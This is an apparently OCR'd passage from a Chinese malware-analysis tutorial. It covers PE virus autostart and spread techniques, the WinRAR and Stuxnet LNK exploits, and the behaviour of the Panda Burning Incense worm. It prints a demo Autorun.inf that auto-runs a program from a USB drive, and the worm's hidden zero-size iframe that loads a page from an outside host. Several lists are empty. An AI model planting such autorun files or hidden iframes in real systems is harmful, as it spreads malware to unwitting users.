 **常见自启动方式**<br/> PE病毒运行之后，需要使用自启动技术保证下次开机再运行。常见的自启动方式包括：

下图展示了Autoruns软件看到Windows操作系统进行自启动的选项。如果病毒本身能很好地结合这套机制，它可以做的事情非常多，并且具有很好的隐蔽性。

再比如我们之前分享的WinRAR漏洞（CVE-2018-20250），当恶意ACE文件被受害者解压之后，会释放恶意木马至指定目录（系统自启动文件夹），受害者重启电脑会执行恶意木马。如下图所示：

**常见传播方式**<br/> 一切可对外交互的渠道都可传播，包括：

比如通过可移动存储设备传播的非感染式病毒，即Autorun.inf。下图显示了Autorun.inf文件，如果文件存在U盘根目录，当我们双击这个U盘时，它就会触发对应的病毒，如果选择U盘盘符右键打开或打开资源管理器，这是进入的也是病毒程序。当然演示的是计算器程序。

```
[AutoRun]
open=mspaint.exe
shell\open=打开(&amp;O)
shell\open\Command=calc.exe
shell\open\Default=1
shell\explore=资源管理器(&amp;X)
shell\explore\Command=calc.exe

```

最后展示Stuxnet震网事件的漏洞利用过程和启动方式，传统的Autorun方式很容易被禁止掉，而Stuxnet利用的是lnk漏洞（MS10-046），它会在目标U盘下放入lnk快捷方式及病毒程序（如DLL文件）。不管通过什么方式进入U盘，lnk文件会被解析从而触发漏洞，导致U盘中的病毒程序被执行，所以0Day漏洞也越来越多应用到安全攻击中。

---


## 二.什么是熊猫烧香病毒

熊猫烧香（Worm.WhBoy）是一款拥有自动传播、自动感染硬盘能力和强大的破坏能力的病毒，它不但能感染系统中exe、com、pif、src、html、asp等文件，它还能中止大量的反病毒软件进程并且会删除扩展名为gho的文件。该文件是一系统备份工具GHOST的备份文件，使用户的系统备份文件丢失。被感染的用户系统中所有.exe可执行文件全部被改成熊猫举着三根香的模样。2006年10月16日由25岁的湖北武汉李俊编写，2007年1月初肆虐网络，它主要通过下载的文件传染传播。

2006-2007年，“熊猫烧香”可谓是轰动一时。时隔多年，当我们回过头再次来看该事件，“熊猫烧香”的破坏力远大于其技术含量，尤其是对网络信息安全产生深远的影响，毕竟它是第一个让中国普通用户对木马病毒有所认识和感知的。现在从技术角度来看，熊猫烧香病毒技术水平一般，但病毒作者在当时运用的各类技术手法还是值得安全人参考和借鉴的。

正如腾讯安全联合实验室文章说的一样（见参考文献），熊猫烧香病毒如果是放在现在，这些基本是所有病毒木马常见、必备的技术，但技术不可同日而语。随着人工智能、大数据、云计算区块链等先进技术的不断发展，病毒作者也将这些技术手段运用到各类安全攻击中危害大家。典型的包括：

除此之外，供应链攻击、AI对抗样本、视频语音欺骗等攻击延伸都是未来黑客技术的发展趋势，这些都应该引起我们足够的重视。这些病毒事件一方面会警醒我们网络空间安全，另一方面也会督促我们安全人员不断思考和对抗。未知攻，焉知防。

---


## 三.熊猫烧香病毒行为分析

熊猫烧香病毒有它的特殊性，也有它的通用性。下面结合第一部分PE病毒基础知识，介绍熊猫烧香病毒的基本行为。

**(1) 自启动方式**

注意，该Setup.exe文件被设置为隐藏、只读、系统，虽然我们可以查看“隐藏的项目”，但某些隐藏的系统文件仍然是看不到的。

我们需要进一步设置，取消勾选“隐藏保护的操作系统文件”，才能显示这类文件，如下图所示。而通常设置为隐藏的系统文件是较难被觉察的，尤其当这类文件被写入到某个指定的操作系统目录中，防不胜防。

**(2) 感染与传播方式**

```
 &lt;iframe src=http://www.ac86.cn/66/index.htm width="0" height="0"&gt;
 &lt;/iframe&gt;

```
